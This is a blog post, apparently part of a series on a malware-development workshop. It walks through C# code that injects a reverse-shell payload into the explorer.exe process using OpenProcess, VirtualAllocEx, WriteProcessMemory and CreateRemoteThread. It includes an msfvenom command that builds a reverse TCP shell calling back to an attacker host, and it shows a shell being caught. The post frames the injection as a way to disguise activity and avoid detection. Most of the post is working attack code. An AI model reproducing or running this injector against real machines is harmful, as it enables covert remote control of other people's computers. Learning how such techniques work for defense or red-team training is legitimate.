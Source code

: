 ```yaml
---
title: Dummies' Malware II
date: 2023-1-31 12:00:00 -800
categories: [malware]
tags: [malware, development, c#]
---
```


# Trust in the Process

## Introduction

Let's continue our adventure in malware development and move on to the next exercise in [Malware Development for Dummies](https://github.com/chvancooten/maldev-for-dummies). You can read the previous entry in this blog series [here](https://threeeightsec.github.io/posts/Maldev1/). That post goes through a lot of background information that we will be utilizing from here on out.

> **Disclaimer**: The information, techniques, and solutions detailed in this blog are for educational purposes only. Do not use this content for malicious and/or illicit purposes.

## Objective

This time, we're going to learn how to inject shellcode into a remote process. This allows us to disguise our activities under a guise of a legitimate process. For this exercise, I'll be focusing on the `explorer.exe` process.

## A New Set of Functions

In our last exercise, we utilized `VirtualAlloc` to allocate memory, `Marshal.copy` to copy our shellcode into memory, and `CreateThread` to execute the code in memory.

For this solution we will be using a new set of functions. First we'll use `OpenProcess` to get a handle on our target process. Then, we'll use `VirtualAllocEx` which allocates executable memory in our target remote process. Then, we'll use `WriteProcesMemory` to copy our shellcode into the memory and then use `CreateRemoteThread` to execute the shellcode.

As you can see, the process is pretty similar to our last solution.

Before we begin, let's set our namespaces so that we can import the necessary dlls:

```c#
using System.Diagnostics;
using System.Runtime.InteropServices;
```

Now, let's find these functions from [PInvoke.net](https://pinvoke.net/index.aspx). Next, we'll create a new C# solution and improt these functions into a class.

```c#
class Methods
{
    //OpenProcess API to get handle on the target process
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr OpenProcess(
        uint processAccess,
        bool bInheritHandle,
        int processId);

     //VirtualAllocEx to allocate memory in the remote process
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    public static extern IntPtr VirtualAllocEx(
        IntPtr hProcess,
        IntPtr lpAddress,
        uint dwSize,
        uint flAllocationType,
        uint flProtect);

     //WriteProcessMemory to copy shellcode into memory
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool WriteProcessMemory(
        IntPtr hProcess,
        IntPtr lpBaseAddress,
        byte[] lpBuffer,
        Int32 nSize,
        out IntPtr lpNumberofBytesWritten);
     
     //CreateRemoteThread to execute the shellcode in memory
    [DllImport("kernel32.dll")]
    public static extern IntPtr CreateRemoteThread(
        IntPtr hProcess,
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParamerter,
        uint dwCreationFlags,
        IntPtr lpThreadId);
    
    public enum StateEnum
        {
            MEM_COMMIT = 0x1000,
            MEM_RESERVE = 0x2000,
            MEM_FREE = 0x10000,
        }

    public enum Protection
        {
            PAGE_READONLY = 0x02,
            PAGE_READWRITE = 0x04,
            PAGE_EXECUTE = 0x10,
            PAGE_EXECUTE_READ = 0x20,
            PAGE_EXECUTE_READWRITE = 0x40,
        }
}
```
* Lines 3 to 37 defines the functions listed above.
* Lines 39 to 52 defines enums that we might use later.

Note that these functions are also from kernel32.dll.

## The Main Function

Let's start constructing our main function.

First we're going to use the same shellcode we built last time with `msfvenom`.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attackerIP LPORT=attackerPort -f csharp
```

We'll paste the `msfvenom` output into our code. Here is an example of what it would look like:

```c#
byte[] shellcode = new byte[380] {0x00,0x00,...};
```

Next, let's get the process ID for `explorer.exe`
```c#
Process[] targetProcess = Process.GetProcessesByName("explorer");
Process explorerProcess = targetProcess[0];
```
This will get all the PID's of any process with the term "explorer." We then take the first ID in that array and assign it to the `explorerProcess` variable.

We will then call `OpenProcess` to get a handle on our target process and also create a `bytesWritten` variable for future use.
```c#
IntPtr process_handle = Methods.OpenProcess(0x1F0FFF, false, explorerProcess.Id);
IntPtr bytesWritten;
```

Next, we will use `VirtualAllocEx` to allocate memory in our target process using the process handle.

```c#
IntPtr memory_allocation = Methods.VirtualAllocEx(process_handle, IntPtr.Zero, (uint)(shellcode.Length), 0x00001000, 0x40);
```

We will use `WriteProcessMemory` to write our shellcode into memory.
```c#
Methods.WriteProcessMemory(process_handle, memory_allocation, shellcode, (int)shellcode.Length, out bytesWritten);
```

Finally, we execute the code with `CreateRemoteThread`.
```c#
Methods.CreateRemoteThread(process_handle, IntPtr.Zero, 0, memory_allocation, IntPtr.Zero, 0, IntPtr.Zero);
```

Let's test this code out!

First, we'll create a listener on our Kali machine.

![Listener](/assets/images/listener.png)

Let's run our code in Visual Studio:
![Injector](/assets/images/runInjector.png)

And we catch another reverse shell!

![Shell](/assets/images/injectorShell.png)

You can find the [full solution code here](https://github.com/ThreeEightSec/MalDummies-Solutions/blob/main/Exercise2.cs).

You can find the my other solutions for this workshop on my [Github repo](https://github.com/ThreeEightSec/MalDummies-Solutions).

## Conclusion

In this blog, we've utilized a different set of functions to inject shellcode. This time, we injected shellcode in a remote process in an effort to avoid detection. However, this solution will also get caught by Defender since it is a well known technique. We will explore defense evasion in our next blog post in this series so stay tuned!

## References

* [Malware Development for Dummies](https://github.com/chvancooten/maldev-for-dummies)
* [PInvoke.net](https://pinvoke.net/index.aspx)
* [A simple Windows code Injection example written in C#](https://andreafortuna.org/2019/03/06/a-simple-windows-code-injection-example-written-in-c/)